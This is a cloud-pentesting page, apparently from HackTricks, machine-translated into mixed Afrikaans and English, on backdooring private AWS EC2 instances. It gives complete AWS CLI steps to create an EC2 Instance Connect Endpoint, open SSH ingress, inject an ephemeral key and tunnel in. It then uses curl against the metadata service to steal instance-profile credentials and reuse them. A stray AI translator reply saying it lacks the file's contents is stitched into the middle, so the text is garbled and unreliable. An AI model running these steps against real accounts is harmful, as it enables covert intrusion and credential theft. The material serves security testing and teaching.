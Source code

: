# AWS - EC2 Instance Connect Endpoint backdoor + ephemeral SSH key injection

{{#include ../../../../banners/hacktricks-training.md}}

Misbruik EC2 Instance Connect Endpoint (EIC Endpoint) om inkomende SSH-toegang tot private EC2 instances (geen publieke IP/bastion) te verkry deur:
- Creating an EIC Endpoint inside the target subnet
- Toelaat inkomende SSH op die teiken SG vanaf die EIC Endpoint SG
- Inspuiting van 'n korttermyn SSH publieke sleutel (geldend ~60 sekondes) met `ec2-instance-connect:SendSSHPublicKey`
- Opening an EIC tunnel and pivoting to the instance to steal instance profile credentials from IMDS

Impact: 'n onopvallende remote toegangspad na private EC2 instances wat bastions en publieke IP-beperkings omseil. Die aanvaller kan die instance profile aanneem en in die rekening opereer.

## Vereistes
- Permissies vir:
- `ec2:CreateInstanceConnectEndpoint`, `ec2:Describe*`, `ec2:AuthorizeSecurityGroupIngress`
- `ec2-instance-connect:SendSSHPublicKey`, `ec2-instance-connect:OpenTunnel`
- Teiken Linux-instance met SSH-bediener en EC2 Instance Connect aangeskakel (Amazon Linux 2 of Ubuntu 20.04+). Standaardgebruikers: `ec2-user` (AL2) of `ubuntu` (Ubuntu).

## Veranderlikes
```bash
export REGION=us-east-1
export INSTANCE_ID=<i-xxxxxxxxxxxx>
export SUBNET_ID=<subnet-xxxxxxxx>
export VPC_ID=<vpc-xxxxxxxx>
export TARGET_SG_ID=<sg-of-target-instance>
export ENDPOINT_SG_ID=<sg-for-eic-endpoint>
# OS user for SSH (ec2-user for AL2, ubuntu for Ubuntu)
export OS_USER=ec2-user
```
## Skep EIC-eindpunt
```bash
aws ec2 create-instance-connect-endpoint \
--subnet-id "$SUBNET_ID" \
--security-group-ids "$ENDPOINT_SG_ID" \
--tag-specifications 'ResourceType=instance-connect-endpoint,Tags=[{Key=Name,Value=Backdoor-EIC}]' \
--region "$REGION" \
--query 'InstanceConnectEndpoint.InstanceConnectEndpointId' --output text | tee EIC_ID

# Wait until ready
while true; do
aws ec2 describe-instance-connect-endpoints \
--instance-connect-endpoint-ids "$(cat EIC_ID)" --region "$REGION" \
--query 'InstanceConnectEndpoints[0].State' --output text | tee EIC_STATE
grep -q 'create-complete' EIC_STATE && break
sleep 5
done
```
## Laat verkeer van EIC Endpoint na target instance toe
```bash
aws ec2 authorize-security-group-ingress \
--group-id "$TARGET_SG_ID" --protocol tcp --port 22 \
--source-group "$ENDPOINT_SG_ID" --region "$REGION" || true
```
## Injekteer kortstondige SSH-sleutel en open tunnel
```bash
# Generate throwaway key
ssh-keygen -t ed25519 -f /tmp/eic -N ''

# Send short-lived SSH pubkey (valid ~60s)
aws ec2-instance-connect send-ssh-public-key \
--instance-id "$INSTANCE_ID" \
--instance-os-user "$OS_USER" \
--ssh-public-key file:///tmp/eic.pub \
--region "$REGION"

# Open a local tunnel to instance:22 via the EIC Endpoint
aws ec2-instance-connect open-tunnel \
--instance-id "$INSTANCE_ID" \
--instance-connect-endpoint-id "$(cat EIC_ID)" \
--local-port 2222 --remote-port 22 --region "$REGION" &
TUN_PID=$!; sleep 2

# SSH via the tunnel (within the 60s window)
ssh -i /tmp/eic -p 2222 "$OS_USER"@127.0.0.1 -o StrictHostKeyChecking=no
```
## Post-exploitation bewys (steal instance profile credentials)
```bash
# From the shell inside the instance
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/ | tee ROLE
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/$(cat ROLE)
```
I don't have the contents of src/pentesting-cloud/aws-security/aws-post-exploitation/aws-ec2-ebs-ssm-and-vpc-post-exploitation/aws-ec2-instance-connect-endpoint-backdoor.md. Please paste the markdown text you want translated and I'll return the Afrikaans translation preserving all tags, links and code exactly as requested.
```json
{
"Code": "Success",
"AccessKeyId": "ASIA...",
"SecretAccessKey": "w0G...",
"Token": "IQoJ...",
"Expiration": "2025-10-08T04:09:52Z"
}
```
Gebruik die gesteelde creds lokaal om identiteit te verifieer:
```bash
export AWS_ACCESS_KEY_ID=<AccessKeyId>
export AWS_SECRET_ACCESS_KEY=<SecretAccessKey>
export AWS_SESSION_TOKEN=<Token>
aws sts get-caller-identity --region "$REGION"
# => arn:aws:sts::<ACCOUNT_ID>:assumed-role/<InstanceRoleName>/<InstanceId>
```
## Opruiming
```bash
# Revoke SG ingress on the target
aws ec2 revoke-security-group-ingress \
--group-id "$TARGET_SG_ID" --protocol tcp --port 22 \
--source-group "$ENDPOINT_SG_ID" --region "$REGION" || true

# Delete EIC Endpoint
aws ec2 delete-instance-connect-endpoint \
--instance-connect-endpoint-id "$(cat EIC_ID)" --region "$REGION"
```
> Let wel
> - Die ingevoegde SSH-sleutel is slegs geldig vir ~60 sekondes; stuur die sleutel net voordat jy die tonnel/SSH oopmaak.
> - `OS_USER` moet ooreenstem met die AMI (bv. `ubuntu` vir Ubuntu, `ec2-user` vir Amazon Linux 2).
{{#include ../../../../banners/hacktricks-training.md}}

